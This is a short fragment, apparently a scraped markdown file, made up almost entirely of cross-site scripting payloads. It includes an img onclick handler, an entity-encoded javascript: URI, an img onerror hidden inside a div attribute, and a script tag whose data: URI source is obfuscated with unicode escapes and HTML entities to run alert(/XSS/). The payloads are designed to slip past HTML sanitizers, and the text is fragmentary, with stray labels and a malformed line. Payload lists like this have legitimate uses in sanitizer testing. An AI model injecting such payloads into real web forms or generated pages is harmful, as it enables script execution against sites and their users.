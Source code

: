 &lt;img type/onclick/alert() src="../../../../r89shi/r89shi.github.io/blob/master/140.gif?raw=true">
javascript&colon;alert281%29
<div dir="X&colon;Xj&NewLine;1&NewLine;<img src='' onerror='alert()'>">j&Tab;</div>

<script/src=data&colon;text/j\u0061v\u0061&#115&#99&#114&#105&#112&#116,\u0061%6C%65%72%74(/XSS/)></script ????????????
